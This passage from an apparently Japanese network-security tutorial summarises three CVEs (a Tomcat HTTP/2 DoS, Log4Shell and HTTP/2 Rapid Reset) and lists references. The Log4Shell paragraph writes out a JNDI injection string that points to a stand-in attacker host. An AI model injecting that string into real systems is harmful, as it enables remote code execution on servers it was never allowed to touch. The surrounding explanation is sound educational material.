> **CVE とは**: Common Vulnerabilities and Exposures の略。世界共通の脆弱性識別番号。
> **CVSS スコア**: 脆弱性の深刻度を 0.0〜10.0 で評価した指標。7.0 以上が High・9.0 以上が Critical。

**CVE-2020-11996（Apache Tomcat — HTTP/2 リクエストによる DoS）**
Apache Tomcat の HTTP/2 実装に、特定のパターンのリクエストを送り続けることで CPU を過剰消費させてサービス拒否（DoS）を引き起こせる脆弱性があった。HTTP/2 はヘッダ圧縮（HPACK）・ストリーム多重化等を使うため、L7 の複雑な処理が DoS の攻撃面になった。攻撃前提: ネットワーク到達性のみ（認証不要）。CVSS スコア 7.5（High）。本記事との関連: L7 アプリケーション層・HTTP プロトコルの複雑性・DoS 攻撃

**CVE-2021-44228（Apache Log4j — Log4Shell、JNDI インジェクション）**
Log4j がログに記録する文字列の中の `${jndi:ldap://evil.com/a}` を自動的に解釈して外部サーバーへ接続する仕様に脆弱性があり、HTTP ヘッダ等の L7 入力から L3/L4 の外部通信を発生させてリモートコード実行が可能だった。L7 の入力が L3 のネットワーク通信を引き起こすという層をまたいだ攻撃だ。攻撃前提: ネットワーク到達性のみ（認証不要）。CVSS スコア 10.0（Critical）。本記事との関連: L7 アプリケーション層・プロトコル間の依存関係

**CVE-2023-44487（HTTP/2 Rapid Reset — 大規模 DDoS 攻撃）**
HTTP/2 プロトコルのストリームリセット機能（RST_STREAM フレーム）を悪用した攻撃手法で、クライアントが大量のリクエストを送信してすぐにリセットすることでサーバーリソースを枯渇させる DDoS 攻撃が成立した。2023 年 8 月に観測された攻撃では従来の最大 DDoS 記録を大幅に上回る 398 百万リクエスト/秒に達した。L7 の HTTP/2 プロトコル設計の問題が L4 レベルのリソース枯渇につながる典型例だ。攻撃前提: ネットワーク到達性のみ（認証不要）。CVSS スコア 7.5（High）。本記事との関連: L4/L7 プロトコルのリソース管理・DoS 攻撃・TCP と HTTP の層をまたいだ攻撃

---

## 次に学ぶべき記事

- **http-fundamentals** — HTTP メソッド・ステータスコード・ヘッダの詳細とセキュリティ
- **tls-ssl-basics** — TLS ハンドシェイク・証明書・暗号スイートの詳細
- **network-scanning** — nmap・Wireshark を使った偵察の実践

---

## 参考文献

- RFC 793. "Transmission Control Protocol". https://datatracker.ietf.org/doc/html/rfc793
- RFC 826. "Ethernet Address Resolution Protocol". https://datatracker.ietf.org/doc/html/rfc826
- OWASP. "Transport Layer Protection". https://owasp.org/www-project-transport-layer-protection/
- Wireshark Foundation. "Wireshark User's Guide". https://www.wireshark.org/docs/wsug_html_chunked/
- NVD. "CVE-2020-11996 Detail". https://nvd.nist.gov/vuln/detail/CVE-2020-11996
- NVD. "CVE-2021-44228 Detail (Log4Shell)". https://nvd.nist.gov/vuln/detail/CVE-2021-44228
- NVD. "CVE-2023-44487 Detail (HTTP/2 Rapid Reset)". https://nvd.nist.gov/vuln/detail/CVE-2023-44487
- ISO/IEC 7498-1:1994. "Information technology — Open Systems Interconnection". https://www.iso.org/standard/20269.html
